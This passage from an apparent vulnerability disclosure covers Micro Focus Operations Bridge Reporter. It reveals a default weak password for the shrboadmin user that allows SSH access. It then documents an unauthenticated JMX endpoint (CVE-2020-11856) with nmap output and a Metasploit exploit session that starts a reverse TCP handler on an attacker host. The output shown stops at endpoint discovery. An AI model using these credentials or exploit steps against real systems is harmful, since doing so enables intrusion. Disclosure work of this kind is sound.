 `shrboadm         (shrboadmin)`

So here's out secure password: *shrboadm*. To achieve instant remote code execution, we just need to SSH into the host as *shrboadmin*! It's not all bad though, at least it doesn't have sudo access...

But there are ways to escalate privileges to root, which will be discussed below.  Note that this only applies to a Linux installation of SAP BO, Windows installations do not create a *shrboadmin* user.


### #4: Exposed Unauthenticated JMX endpoint 
* [CWE-749: Exposed Dangerous Method or Function](https://cwe.mitre.org/data/definitions/749.html)
* [CVE-2020-11856](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11856) / [ZDI-20-1216](https://www.zerodayinitiative.com/advisories/ZDI-20-1216/)
* Risk Classification: Critical
* Attack Vector: Remote
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)

#### Details:

This vulnerability was found 5 minutes after finishing installing the product (the time it takes to run a *nmap* scan), as shown below:

```
PORT      STATE SERVICE  VERSION
21416/tcp open  java-rmi Java RMI
| rmi-dumpregistry:
|   jmxrmi
|      implements javax.management.remote.rmi.RMIServer,
|     extends
|       java.lang.reflect.Proxy
|       fields
|           Ljava/lang/reflect/InvocationHandler; h
|             java.rmi.server.RemoteObjectInvocationHandler
|             @10.10.10.123:41123
|             extends
|_              java.rmi.server.RemoteObject

```

OBR exposes a [Java Management Extensions](https://en.wikipedia.org/wiki/Java_Management_Extensions) (JMX) endpoint on port TCP 21416. This is completely intentional, as their [installation documentation](https://docs.microfocus.com/OBR/10.40/OBR_Interactive_Installation/Content/_HPc_Interactive_Document.htm) requires the port to be opened in the server host firewall.

By default, the JMX endpoint is exposed without any authentication by the Tomcat server running the administrative web application.

This means that exploitation is trivial with Metasploit's [java_jmx_server exploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/misc/java_jmx_server.rb):

```
msf5 > use exploit/multi/misc/java_jmx_server
msf5 exploit(multi/misc/java_jmx_server) > set rhost 10.10.10.123
rhost => 10.10.10.123
msf5 exploit(multi/misc/java_jmx_server) > set rport 21416
rport => 21416
msf5 exploit(multi/misc/java_jmx_server) > run

[*] Started reverse TCP handler on 10.10.10.1:4444
[*] 10.10.10.123:21416 - Using URL: http://0.0.0.0:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Local IP: http://10.10.10.1:8080/HFgzJtKH6uuT49
[*] 10.10.10.123:21416 - Sending RMI Header...
[*] 10.10.10.123:21416 - Discovering the JMXRMI endpoint...
[+] 10.10.10.123:21416 - JMXRMI endpoint on 10.10.10.123:41123
```